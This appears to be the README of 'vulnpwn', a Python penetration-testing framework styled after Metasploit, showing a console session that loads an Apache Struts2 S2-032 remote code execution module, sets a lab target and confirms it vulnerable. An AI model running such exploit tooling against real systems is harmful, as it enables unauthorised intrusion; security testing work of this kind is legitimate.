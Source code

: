 
## vulnpwn

**vulnpwn** is a pythonic framework which is similar to [metasploit-framework](https://github.com/rapid7/metasploit-framework). If you are interested in python pragramming, please join us to create a good open-source project.

![](screenshot.png)

## Apache Struts2 s2_032 Remote Code Execution

```
vulnpwn [development] python osfconsole.py
vulnpwn > show modules

    exploits/multi/http/apache_struts_dmi_rce

vulnpwn > use exploits/multi/http/apache_struts_dmi_rce
vulnpwn (exploits/multi/http/apache_struts_dmi_rce) > show options

    Option     Current Setting                           Description
    ---------  ----------------------------------------  --------------------------
    TARGETURI  /struts2-blank/example/HelloWorld.action  target uri to request
    THREADS    1                                         Set default threads number
    VERBOSE    False                                     Verbose mode
    RPORT      8080                                      the target port
    RHOST      172.16.176.226                            the target host

vulnpwn (exploits/multi/http/apache_struts_dmi_rce) > run
[+] http://172.16.176.226:8080/struts2-blank/example/HelloWorld.action - Checking struts2 s2_032 rce...
Starting new HTTP connection (1): 172.16.176.226
[+] Target is vulanable
```

**Open-Security License**
